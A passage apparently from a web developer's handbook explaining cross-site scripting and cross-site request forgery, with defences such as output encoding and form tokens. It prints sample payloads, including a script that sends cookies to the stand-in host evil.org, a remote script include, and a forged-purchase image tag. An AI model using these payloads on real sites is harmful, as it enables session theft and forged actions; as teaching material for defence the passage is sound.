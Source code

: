 #### Cross-Site Attacks

An emerging breed of Web-based attacks is based on abusing trust by spoofing the origin of malicious information. The two most common examples of this style of attack are cross-site scripting (XSS) and cross-site request forgeries (CSRF).

#### Cross-Site Scripting

Cross-site scripting is a style of attack that involves the injection of malicious code into a site that is trusted by the victim. As an example, consider a Web-based forum, where users all view messages posted by each other. Imagine a user who posts the following message:

`<script>alert('Danger')</script> `

All users who view this post and have JavaScript enabled will execute this script as if it originated from the current Web site. Although this example is harmless (it displays an alert box), it should be clear that scripts with more malicious intent can be substituted.

One common use of this technique is to capture a user's cookies to use later in a presentation attack. For example, consider the following script:

`<script>document.location='http://evil.org/?cookies='+document.cookie</script>`
 
Because this script is located on the forum, any user who executes this script will send all of his/her forum cookies to evil.org in the form of a GET variable named cookies. An attacker from evil.org can then execute a presentation attack on the forum and impersonate another user.

For malicious scripts that are too large to fit into the comment field of the forum, a technique similar to the following can be used:

`<script src='http://evil.org/malicious_code'></script>`

This script will execute the code located on the evil.org site.

As is evident, the fundamental idea behind cross-site scripting is very simple, and this is one of the characteristics that has resulted in so much attention being devoted to the topic. Any Web site that allows users to view content submitted by others users (including Web-based e-mail clients) is potentially at risk of being vulnerable.

Guarding against this risk simply requires developers to adhere to the golden rule of Web development: Never trust data from the client. Imagine that the forum given in the previous examples implemented the following code when displaying the messages:

echo htmlspecialchars($message); 
This would encode the message in such a way that it would appear on the screen exactly as it was entered rather than the HTML tags being interpreted and not displayed. Another simple approach is to remove all HTML tags:

`echo strip_tags($message); `

More information on XSS can be found at http://www.cert.org/advisories/CA-2000-02.html and at http://httpd.apache.org/info/css-security/.

#### Cross-Site Request Forgeries

The term cross-site request forgeries (CSRF, pronounced "sea surf ") was originally coined by Peter Watkins, and this style of attack is described in detail at http://www.tux.org/~peterw/csrf.txt. Unlike cross-site scripting, where the attacks attempt to inject malicious code into trusted sites, CSRF attacks attempt to forge HTTP requests, using the authorization of the victim to bypass security checks.

Thus, whereas XSS abuses the trust granted to a particular Web site, CSRF abuses the trust granted to a particular user. The idea is to trick an authorized user into unknowingly performing an action on your behalf.

A common implementation uses an HTML <img> tag to cause a Web client to make a GET request to the URL designated in the <img> tag. Recall that the Web client sends a separate HTTP request for embedded resources such as images. For example, consider the following HTML:

`<img src="http://httphandbook.org/buy.php?book=0672324547&quantity=9999"> `

A browser will submit a request similar to the following to httphandbook.org:

`GET /buy.php?book=0672324547&quantity=9999 HTTP/1.1 
Host: httphandbook.org `

Thus, the GET request is identical to one that would be placed for an HTML link to this URL or a form submission that designates a method of GET. If a user had a prior relationship with httphandbook.org, the user might unknowingly purchase 9999 copies of HTTP Developer's Handbook simply by viewing someone's post on a Web-based forum, viewing an HTML e-mail, and so on.

A more sophisticated attack might use a URL that appears to be more legitimate and redirects the user to the rogue URL. Consider the following series of transactions:

```
GET /csrf.png HTTP/1.1 
Host: httphandbook.org 

HTTP/1.1 302 Found 
Location: http://httphandbook.org/buy.php?book=0672324547&quantity=9999 

GET /buy.php?book=0672324547&quantity=9999 HTTP/1.1 
Host: httphandbook.org 

HTTP/1.1 200 OK 
Content-Type: text/html 
Content-Length: 32 

<p>Thank you for your order!</p> 
```

Thus, an HTML <img> tag can reference what appears to be a legitimate URL for an image and still ultimately forge a malicious HTTP request.

CSRF attacks are more difficult to protect against than XSS. There are a few practices that you can follow in order to make such attacks more challenging. For example, for important HTML forms, the FORM method used in the HTML can be set to POST so that all legitimate requests use the POST request method. By then ensuring that the expected data arrives in the form of POST variables rather than GET (for example, by using the $_POST[] array in PHP), the use of the HTML <img> tag approach is no longer an option for an attacker.

By requiring the POST method, it is also more difficult to forge requests without the user realizing what has happened, even if after the fact. This is because a POST request is going to be for the parent resource rather than an embedded one, so the effect will be that the user will see the response (such as "Thank you for your order!" in the previous example).

A more secure approach is to ensure that all HTTP requests intended to originate from an HTML form do just that. A common method is to utilize a shared secret between the server and client. For example, if a hidden form field contains a randomly generated unique string, the server can then check to ensure that the string submitted in the next request matches the one originally included in the HTML form. This has the disadvantage of affecting legitimate users who make frequent use of the browser's Back button, so it may not be the best option for every application.

